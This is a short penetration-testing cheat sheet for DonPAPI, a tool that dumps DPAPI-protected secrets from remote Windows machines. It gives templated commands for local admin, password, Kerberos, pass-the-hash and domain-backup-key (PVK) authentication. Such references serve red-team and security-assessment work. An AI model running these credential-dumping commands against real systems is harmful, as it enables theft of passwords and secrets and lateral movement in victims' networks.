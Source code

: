 # DonPAPI

% DonPAPI, dpapi

#plateform/linux  #target/remote  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## DonPAPI - Dump all secrets of the target machine with Local Admin
```
DonPAPI -local_auth <user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (creds)
```
DonPAPI <domain>/<user>:<password>@<target>
```
## DonPAPI - Dump all secrets of the target machine with Local Admin (kerberos)
```
DonPAPI -k <domain>/<user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (pth)
```
DonPAPI --hashes <LM>:<NT> <domain>/<user>@<target>
```


## DonPAPI - Dump all secrets with Domain Admin and PVK (pth)
run dpapi.py to get PVK
```
DonPAPI -pvk <pvk_path> -o <out_path> --hashes <LM>:<NT> <domain>/<user>@<target>
```